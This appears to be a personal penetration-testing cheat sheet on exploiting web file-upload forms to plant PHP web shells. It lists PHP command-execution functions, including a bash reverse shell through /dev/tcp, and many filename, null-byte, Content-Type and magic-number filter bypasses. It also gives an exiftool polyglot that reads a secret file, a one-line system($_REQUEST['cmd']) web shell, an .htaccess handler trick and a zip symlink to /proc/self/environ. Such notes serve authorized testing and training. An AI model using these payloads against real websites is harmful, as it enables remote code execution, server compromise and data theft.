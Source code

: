 #File_upload

**Test every php extension** 

- Find the right extension with burp :
![[upload 2.png]]

- Script generate extension list : 

```python
var = ".php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module"
var_list = var.split(", ")

with open("extensions.txt", "w") as file:
    for extension in var_list:
        file.write(extension + "\n")
```   

![[upload 7.png]]

- Check every file that send an echo "test" : 
![[upload 6.png]]

`Same technique now check every response that print Demonize or "test"`

![[upload 4.png]]

- Check the disable function  :
![[upload 3.png]]

- Here is a list or other possible function to test to execute command : 

	- **exec** - Returns last line of commands output:
	 ``` echo exec("uname -a"); ```
	 - **passthru** - Passes commands output directly to the browser:
	 ```echo passthru("uname -a");```
	 - **system** - Passes commands output directly to the browser and returns last line:
	 ```echo system("uname -a");```
	 - **shell_exec** - Returns commands output :
	 ``` echo shell_exec("uname -a"); ```
	 - **popen** - Opens read or write pipe to process of a command:
	 ```echo fread(popen("/bin/ls /", "r"), 4096);```
	 - **proc_open** - Similar to popen() but greater degree of control:
	 ```proc_close(proc_open("uname -a",array(),$something)); ```
	 - **preg_replace** :
	 ``` <?php preg_replace('/.*/e', 'system("whoami");', ''); ?> ```
	 - **pcntl_exec** - Executes a program (by default in modern and not so modern PHP you need to load the `pcntl.so` module to use this function) :
	 ```pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);```

**Bypass file extensions checks**

1. If they apply, the **check** the **previous extensions.** Also test them using some **uppercase letters**: _pHp, .pHP5, .PhAr ..._
    
2. _Check_ _**adding a valid extension before**_ _the execution extension (use previous extensions also):_
    - _file.png.php_
    - _file.png.Php5_
    
3. Try adding **special characters at the end.** You could use Burp to **bruteforce** all the **ascii** and **Unicode** characters. (_Note that you can also try to use the_ _**previously**_ _motioned_ _**extensions**_)
    
    - _file.php%20_
        
    - _file.php%0a_
        
    - _file.php%00_
        
    - _file.php%0d%0a_
        
    - _file.php/_
        
    - _file.php.\_
        
    - _file._
        
    - _file.php...._
        
    - _file.pHp5...._    
    
4. Try to bypass the protections **tricking the extension parser** of the server-side with techniques like **doubling** the **extension** or **adding junk** data (**null** bytes) between extensions. _You can also use the_ _**previous extensions**_ _to prepare a better payload._
    
    - _file.png.php_
        
    - _file.png.pHp5_
        
    - _file.php#.png_
        
    - _file.php%00.png_
        
    - _file.php\x00.png_
        
    - _file.php%0a.png_
        
    - _file.php%0d%0a.png_
        
    - _file.phpJunk123png_
        
    
5. Add **another layer of extensions** to the previous check:
    - _file.png.jpg.php_
        
    - _file.php%00.png%00.jpg_
    
6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension** _**.php**_**, but** not necessarily ending in .php** will execute code):
    
    - _ex: file.php.png_
        
    
7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. T
    
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php
    

```sh
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png
```

9. Other defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename :

	`exploit.p.phphp`

**Bypass Content-Type, Magic Number**

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_

 Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
   
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**: 

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

Or you could also **introduce the payload directly** in an image: 

`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`

- Interesting tool Upload bypass :
https://github.com/sAjibuu/Upload_Bypass

- You can also an LFI do bypass restriction for example : 
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php`

DO NOT forget try double encoding ect ...

- Htaccess ( Web shell upload via extension blacklist bypass ): 

1- Upload a file name as .htaccess 
2- Change the value of the `Content-Type` header to `text/plain`
3- Replace the contents of the file (your PHP payload) with the following Apache directive:

`AddType application/x-httpd-php .l33t`

Resources: 
https://thibaud-robin.fr/articles/bypass-filter-upload/

**Race Condition :**
![[upload 8.png]]

![[upload 9.png]]

- Tester la présence d'un Anti-virus : 
```sh
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```


- Zip :
Try to upload a zip with symlink to `/etc/password` or `the page himself` (index.php)
Be aware of `opendir` !! 
```sh
ln -s /proc/self/environ test.txt
zip --symlinks user.zip test.txt
```